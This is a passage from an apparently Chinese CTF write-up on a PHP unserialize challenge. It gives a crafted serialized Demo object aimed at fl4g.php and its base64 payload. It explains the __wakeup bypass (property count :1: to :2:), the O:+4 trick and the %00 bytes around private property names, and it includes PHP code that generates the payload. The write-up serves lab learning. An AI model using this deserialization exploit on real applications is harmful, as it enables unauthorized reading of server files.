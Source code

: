 `O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}`

编码后：

`TzorNDoiRGVtbyI6Mjp7czoxMDoiRGVtb2ZpbGUiO3M6ODoiZmw0Zy5waHAiO30=`

载荷是：

```
var?=TzorNDoiRGVtbyI6Mjp7czoxMDoiRGVtb2ZpbGUiO3M6ODoiZmw0Zy5waHAiO30=
```



#### 巨坑-私有属性

结果居然还是 `index.php` 的源码！！！

**WTF ???**

经过多方百度后，发现了一个**盲点**——由于 `Demo` 类的 `file` 属性是**私有属性**序列化之后，在类名前后会有 %00 阻断。

并且在 `s:10:"Demofile"` 也有提示，`Demofile` 是 8 个字符，为什么是 `s:10`  呢？就是因为前后有 %00

图形化就是这样：

![](http://markdown.yeek.top/20200212004354.png)

`%44%65%6d%6f`进行 hex 转化后 就是 `Demo` ，可以在这个网站上测试 [Hex编码/解码](https://www.107000.com/T-Hex/)

**坑来了：**

如果直接复制文本样式，在别的地方进行base64编码会**丢失掉 `%00` 的信息**！！再 解码->反序列化 自然与我之前序列化的 Demo **不是同一个东西**

<br>

Q: 那咋办呢？

A: 在 php 中就把**替换**和**base64编码**弄好！

执行以下代码：

```php
<?php

class Demo
{
    private $file = 'index.php';
    public function __construct($file)
    {
        $this->file = $file;
    }
    function __destruct()
    {
        echo @highlight_file($this->file, true);
    }
    function __wakeup()
    {
        if ($this->file != 'index.php') {
            //the secret is in the fl4g.php
            $this->file = 'index.php';
        }
    }
}

$file = 'fl4g.php';
$d = new Demo($file);
$s = serialize($d);
// O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
$s = str_replace(':1:', ':2:', $s);
$s = str_replace('O:4', 'O:+4', $s);
print_r($s);
print_r("<br>");
```